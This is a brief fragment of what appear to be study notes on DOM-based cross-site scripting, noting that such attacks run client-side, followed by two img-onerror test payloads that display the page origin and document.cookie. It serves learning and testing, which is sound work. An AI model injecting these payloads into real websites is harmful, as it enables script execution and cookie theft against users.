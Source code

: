 is not persistent also 

DOM XSS is not sent to the back-end server at all and is completely processed on the client-side through Javascript 

Payloads
```
<img src="" onerror=alert(window.origin)>

<img src="" onerror=alert(document.cookie)>
```

